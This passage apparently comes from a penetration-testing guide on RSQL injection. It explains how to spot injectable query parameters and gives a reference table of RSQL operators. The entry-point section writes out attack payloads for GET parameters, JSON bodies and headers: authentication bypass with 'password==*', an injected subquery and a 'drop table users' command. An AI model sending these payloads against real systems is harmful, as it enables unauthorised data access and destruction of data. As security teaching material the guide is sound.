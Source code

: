 ## Entry Point Detection

RSQL allows building queries through the `q` or `query` parameters. If this parameters is directly concatenated into queries without validation, it is likely vulnerable.

#### GET Parameters

```console
GET /api/v2/users?q=username==admin # User enumeration or data extraction
GET /api/v2/users?q=username==admin;password==* # Authentication Bypass
GET /api/v2/users?filter[username]=admin User enumeration or data extraction
GET /api/v2/users?filter[username]==admin;password==* # Authentication Bypass
GET /api/v2/users?include=roles,permissions # User enumeration or data extraction
GET /api/v2/users?include=roles,(select * from users) # Execution of malicious code
GET /api/v2/users?sort=id;drop table users # Execution of malicious code
```

#### POST, TRACE or PUT Parameters

```json
{
  "query": "username==admin;password==*" # Authentication Bypass
}
```

#### HTTP Headers

Some APIs allow queries to be sent in HTTP headers, such as: `<HEADER>: username==admin;password==* # Authentication Bypass`

## Supported RSQL Operators

| Operator  | Description | Example  |
|:----: |:----: |:------------------:|
| `;` / `and` | Logical **AND** operator. Filters rows where *both* conditions are *true* | `/api/v2/myTable?q=columnA==valueA;columnB==valueB` |
| `,` / `or` | Logical **OR** operator. Filters rows where *at least one* condition is *true*| `/api/v2/myTable?q=columnA==valueA,columnB==valueB` |
| `==` | Performs an **equals** query. Returns all rows from *myTable* where values in *columnA* exactly equal *queryValue* | `/api/v2/myTable?q=columnA==queryValue` |
| `=q=` | Performs a **search** query. Returns all rows from *myTable* where values in *columnA* contain *queryValue* | `/api/v2/myTable?q=columnA=q=queryValue` |
| `=like=` | Performs a **like** query. Returns all rows from *myTable* where values in *columnA* are like *queryValue* | `/api/v2/myTable?q=columnA=like=queryValue` |
| `=notlike=` | Performs a **not like** query. Returns all rows from *myTable* where values in *columnA* are not like *queryValue* | `/api/v2/myTable?q=columnA=notlike=queryValue` |
| `=in=` | Performs an **in** query. Returns all rows from *myTable* where *columnA* contains *valueA* OR *valueB* | `/api/v2/myTable?q=columnA=in=(valueA, valueB)` |
| `=out=` | Performs an **exclude** query. Returns all rows of *myTable* where the values in *columnA* are neither *valueA* nor *valueB* | `/api/v2/myTable?q=columnA=out=(valueA,valueB)` |
| `!=` | Performs a *not equals* query. Returns all rows from *myTable* where values in *columnA* do not equal *queryValue* | `/api/v2/myTable?q=columnA!=queryValue` |
| `<` & `=lt=` | Performs a **lesser than** query. Returns all rows from *myTable* where values in *columnA* are lesser than *queryValue* | `/api/v2/myTable?q=columnA<queryValue` <br> `/api/v2/myTable?q=columnA=lt=queryValue` |
| `=le=` & `<=` | Performs a **lesser than** or **equal to** query. Returns all rows from *myTable* where values in *columnA* are lesser than or equal to *queryValue* | `/api/v2/myTable?q=columnA<=queryValue` <br> `/api/v2/myTable?q=columnA=le=queryValue` |
| `>` & `=gt=` | Performs a **greater than** query. Returns all rows from *myTable* where values in *columnA* are greater than *queryValue* | `/api/v2/myTable?q=columnA>queryValue` <br> `/api/v2/myTable?q=columnA=gt=queryValue` |
| `>=` & `=ge=` | Performs a **equal** to or **greater than** query. Returns all rows from *myTable* where values in *columnA* are equal to or greater than *queryValue* | `/api/v2/myTable?q=columnA>=queryValue` <br> `/api/v2/myTable?q=columnA=ge=queryValue` |
| `=rng=` | Performs a **from to** query. Returns all rows from *myTable* where values in *columnA* are equal or greater than the *fromValue*, and lesser than or equal to the *toValue* | `/api/v2/myTable?q=columnA=rng=(fromValue,toValue)` |
